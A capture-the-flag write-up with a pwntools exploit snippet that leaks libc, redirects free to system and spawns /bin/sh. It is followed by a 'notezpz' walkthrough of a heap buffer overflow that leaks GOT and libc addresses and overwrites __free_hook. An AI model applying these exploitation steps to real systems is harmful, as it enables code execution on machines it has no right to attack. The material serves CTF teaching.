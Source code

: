 ```python
create()

# leak libc
askQuestion(5)

# Calculating offsets to keep the got intact
libc = u32(p.recvn(4))
system = libc - 0x140d0
getchar = libc + 0x1cf70
fgets = libc + 0x14ce0

# set everything using the overflow until __stack_chk_fail
# which can be corrupted since it never gets called
# Overwrite free with system
setQuestion(5, p32(libc) + p32(0) + p32(system) + p32(getchar) + p32(fgets))

# set the /bin/sh string in the buffer (which is put on the stack)
setQuestion(2, '/bin/sh\x00')

# Call *cough* system *cough* free
delete(2)

p.interactive()
```

## notezpz

---

FLAG{REDACTED}

---

_Alright, the title was not lying this time_

Challenges:

1. PIE: means I need to find where the GOT is
2. Full Relro: means I cannot malloc the got, or write to most places
3. There's no use-after-free anymore, so you can only rely on the buffer overflow of `0x78` bytes

So what do you do?

1. There's a pointer to the `print_question` function, so you can find the address of the got by leaking it (as it is at a constant offset)
2. While you cannot write to the got, you can write to hooks in libc!
3. _Let's face it, buffer overflows are better than other exploits anyway_

Here's a how to:

1. Create enough space on the heap by malloc-ing a couple of times, because overflows destroy the chunks.
2. Create 2 chunks, then free the one that you malloc-ed later.
3. Overflow the string from the first one, into the metadata of the second one. To leak an address from the metadata, you need to get rid of the null byte put at the end of the read, which can be done by overflowing only one byte into the pointer to the next free chunk, then malloc-ing that same chunk to overwrite the pointer (along with the null byte) with the pointer to the `print_question` function.
4. Leak the function pointer, and calculate offset to the GOT.
5. Leak an address in libc, by grooming a chunk with the function pointer in the metadata set to the `print_question` function, and the string pointer set to the address of the GOT.
6. If the libc is unknown, do step 5 multiple times to find out the exact version. Here we assume 2.27, same as the one found in ezpz2.
7. Calculate offsets to the `__free_hook` and `system` functions in libc. We overwrite the free hook as free is called with our buffer, which allows us to control the parameters passed to `system`.